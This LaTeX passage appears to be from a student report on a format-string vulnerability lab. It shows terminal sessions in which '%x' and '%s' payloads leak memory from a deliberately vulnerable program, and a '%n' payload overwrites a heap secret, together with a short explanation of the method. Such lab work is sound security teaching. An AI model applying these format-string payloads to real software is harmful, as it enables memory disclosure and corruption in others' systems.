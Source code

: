 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=bash,
  breaklines=true,
	caption=Example of printing out memory,
	label=printf:crash
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./vul
The variable secret’s address is 0xbf8b258c (on stack)
The variable secret’s value is 0x 95fd008 (on heap)
secret[0]’s address is 0x 95fd008 (on heap)
secret[1]’s address is 0x 95fd00c (on heap)
Please enter a decimal integer
157274124
Please enter a string
%x.%x.%x.%x.%x.%s.%s   
bf8b2590.bf8b2610.bf8b2604.0.0.U.D
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}

\subsubsection{Changing the value of \texttt{secret[1]}}

In order to change value of the second element of \texttt{secret} array, similar approach must be taken as for printing it, i.e. we provide address of the value that interests us to be stored int \texttt{int\_input} variable, then we must pop elements of the stack by providing format specifier with a number of \texttt{\%x}s, and then instead of printing value of heap memory in location contained in the next element on the stack, we can use \texttt{\%n} to write modify the memory location. Example is shown in listing~\ref{printf:change}. As we can see, we are able to change the value of the secret from 0x55 to 0x1a.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of printing out memory,
	label=printf:change,
	breaklines=true,
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./vul
The variable secret’s address is 0xbf83550c (on stack)
The variable secret’s value is 0x 9448008 (on heap)
secret[0]’s address is 0x 9448008 (on heap)
secret[1]’s address is 0x 944800c (on heap)
Please enter a decimal integer
155484172
Please enter a string
%x%x%x%x%x%n
bf835510bf835590bf83558400
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x1a
\end{lstlisting}

\subsubsection{Changing the value of \texttt{secret[1]} to a pre-determined value}
\end{document}
